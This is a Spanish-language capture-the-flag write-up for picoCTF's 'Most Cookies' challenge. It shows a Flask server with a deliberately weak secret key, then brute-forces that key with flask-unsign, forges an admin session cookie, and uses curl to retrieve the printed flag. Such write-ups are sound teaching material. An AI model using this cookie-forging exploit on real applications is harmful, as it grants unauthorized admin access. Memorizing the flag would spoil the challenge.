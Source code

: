 
---
### Descripción:
```
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)
```

### Pistas: 
```
1.- How secure is a flask cookie?
```

### Solución:
- **Comenzamos descargando el archivo .py del link que se nos proporcionó.**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ wget https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py
```
- **A continuacion decodificaremos la cookie del sitio, obteniendo como resultado:**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_Ce_w.wrQO0IkBKzh5Ym497TIlblon7JI | base64 -d
{"very_auth":"snickerdoodle"}base64: entrada inválida
```
- **Leemos con cat, el archivo .py.**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ cat server.py 
from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
import random
app = Flask(__name__)
flag_value = open("./flag").read().rstrip()
title = "Most Cookies"
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)

@app.route("/")
def main():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "blank":
			return render_template("index.html", title=title)
		else:
			return make_response(redirect("/display"))
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/search", methods=["GET", "POST"])
def search():
	if "name" in request.form and request.form["name"] in cookie_names:
		resp = make_response(redirect("/display"))
		session["very_auth"] = request.form["name"]
		return resp
	else:
		message = "That doesn't appear to be a valid cookie."
		category = "danger"
		flash(message, category)
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

@app.route("/reset")
def reset():
	resp = make_response(redirect("/"))
	session.pop("very_auth", None)
	return resp

@app.route("/display", methods=["GET"])
def flag():
	if session.get("very_auth"):
		check = session["very_auth"]
		if check == "admin":
			resp = make_response(render_template("flag.html", value=flag_value, title=title))
			return resp
		flash("That is a cookie! Not very special though...", "success")
		return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
	else:
		resp = make_response(redirect("/"))
		session["very_auth"] = "blank"
		return resp

if __name__ == "__main__":
	app.run()
```
- **Sin embargo lo unico util que utilizaremos de ese codigo es lo que contiene la variable "cookie_names", copiamos todos los nombres de las cookies y las guardamos en un archivo .txt de la siguiente manera:**
![[Pasted image 20250404222522.png]]

---

- **Ahora necesitaremos el flask-unsign, por lo cual lo instalaremos con los siguientes comandos:**
```bash
estefania@estefania-IdeaPad-3-14ALC6:~$ python3 -m venv ~/.venv
estefania@estefania-IdeaPad-3-14ALC6:~$ source ~/.venv/bin/activate
(.venv) estefania@estefania-IdeaPad-3-14ALC6:~$ python -m pip install flask-unsign
```
- **Ahora usando flask-unsign, buscaremos con el siguiente comando, la clave**
```bash
(.venv) estefania@estefania-IdeaPad-3-14ALC6:~/Documentos/FSI /WEB$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z_Ce_w.wrQO0IkBKzh5Ym497TIlblon7JI" --wordlist Cookies.txt
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 29 attempts
'fortune'
```
- **Ahora usaremos esa clave para conseguir otra cookie, y aplicar un curl.**
```bash
(.venv) estefania@estefania-IdeaPad-3-14ALC6:~/Documentos/FSI /WEB$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret fortune
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_CtOA.TwlZuNnEG0eazBJZ-RuCdzyEDTw

(.venv) estefania@estefania-IdeaPad-3-14ALC6:~/Documentos/FSI /WEB$ curl -s  http://mercury.picoctf.net:65344/display -H 'Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z_CtOA.TwlZuNnEG0eazBJZ-RuCdzyEDTw'| grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}</code></p>
```

### Bandera:
```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```